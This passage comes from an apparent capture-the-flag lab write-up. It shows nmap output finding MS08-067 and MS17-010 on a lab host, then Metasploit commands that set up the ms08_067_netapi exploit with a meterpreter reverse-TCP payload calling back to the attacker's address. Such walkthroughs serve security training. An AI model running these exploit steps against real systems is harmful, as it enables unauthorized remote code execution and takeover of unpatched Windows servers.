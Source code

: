 ```
Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 62.97 seconds
```
Apparently, the server has two known vulnerabilities: MS17-010 (`EternalBlue` that we already saw in a previous box) and MS08-67. It seems to have an exploit in MetaSploit for this vulnerability:
```
$ msfconsole
[msf](Jobs:0 Agents:0) >> search exploit MS08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```
## Foothold
Let's try this exploit using MetaSploit:
```
[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set rhosts 10.129.109.83
rhosts => 10.129.109.83
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set lhost tun0
lhost => 10.10.14.93
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> run

```